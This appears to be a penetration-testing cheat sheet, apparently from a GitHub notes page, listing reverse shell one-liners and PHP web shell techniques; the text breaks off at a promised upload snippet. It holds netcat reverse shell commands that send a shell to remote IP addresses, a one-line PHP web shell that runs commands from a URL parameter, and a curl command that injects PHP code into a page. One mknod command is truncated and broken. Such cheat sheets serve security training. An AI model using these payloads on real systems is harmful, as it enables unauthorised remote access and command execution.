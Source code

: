 # SHELLS

# Reverse Shells

## netcat (nc)


-  with the -e option
```
nc -e /bin/sh 10.0.0.1 1234
```
-  without -e option (If you have the wrong version of netcat installed)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.245 443 >/tmp/f
```

-  If the -e option is disabled, try this

```
mknod backpipe p && nc 10.11.0.245 443 0<backpipe | /bin/bash 1>backpipe /bin/sh | nc 10.11.0.245 443

rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/
```

## PHP

### PHP Shell
- We can create a new file say ( shell.php ) on the server containing
```
                   <?php system($\_GET["cmd"]); ?>
```

which can be accessed by
```
                   - http://IP/shell.php?cmd=id
```
If there’s a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.
```
 curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
```

```
-G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.

-data-urlencode <data> (HTTP) This posts data, similar to the other -d, --data options with the exception that this performs URL-encoding.

-b, --cookie <data> (HTTP) Pass the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".
```
- If you also want to provide upload functionality (Imagine, if we need to upload nc64.exe on Windows or other-binaries on linux), we can put the below code in the php file
